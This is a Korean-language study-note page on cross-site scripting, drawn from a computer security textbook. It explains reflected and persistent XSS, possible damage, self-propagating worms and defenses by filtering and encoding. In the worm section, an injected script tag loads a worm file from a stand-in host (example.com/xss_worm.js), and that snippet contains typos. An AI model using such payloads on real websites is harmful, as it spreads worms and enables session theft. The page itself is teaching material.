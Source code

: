 ```yaml
---
title: Cross-Site Scripting Attack
tags: security XSS
key: page-cross_site_scripting_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 그 웹사이트와 연관된 쿠키를 가지고 내용을 수정하거나 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.
<br><br>

## Non-persistent (Reflected) XSS Attack
* 대다수의 웹사이트들이 reflective behavior을 가지고 있다. 간단히 얘기하자면 user가 웹 사이트 input에 어떤 값을 넣어서 request를 보내면 서버는 user의 input값을 response에 포함시켜서 다시 보내는(reflect) 행위들을 의미한다.
* 이때 서버가 input을 제대로 sanitize하지 않는다면 input에 script 코드를 넣어서 보내면 다시 돌아올때 그것이 실행되게 되는 것이다.
<br><br>

## Persistent XSS Attack
* Target website에 data로써 코드를 저장시켜서 공격하는 기법이다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.
<br><br>

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.
<br><br>

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.
<br><br>

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.
<br><br>

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
### Filter Approach
  * user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
  * script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
  * 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.
### Encoding Approach
  * Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
  * 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

## Refrence
* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)